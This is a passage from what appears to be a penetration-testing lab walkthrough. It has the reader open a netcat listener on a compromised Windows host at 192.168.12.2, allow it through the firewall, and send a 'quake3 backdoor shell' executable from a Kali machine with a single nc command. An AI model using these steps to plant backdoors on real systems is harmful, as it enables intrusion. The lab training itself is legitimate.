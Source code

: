 Once that's done let's go back to the __192.168.12.2__ device. If you look around the system some more you should find that Netcat is also installed on the device.

Go ahead and create a netcat listener to download the quake3.exe file that we have. You might be asked to allow netcat to communicate past the firewall, so make sure you click "__Allow access__" on the Windows Security Alert.

<a href="/images/ptl-51.png"><img src="/images/ptl-51.png"></a>

Back on our Kali Machine, let's connect to the Netcat listener and server our quake3 backdoor shell.

```console
root@kali:~/pentestit# nc -w 3 192.168.12.2 1234 < quake3.exe
```

If done correctly, you should see a connection was established from our Kali Machine to the __192.168.12.2__ machine via netcat.
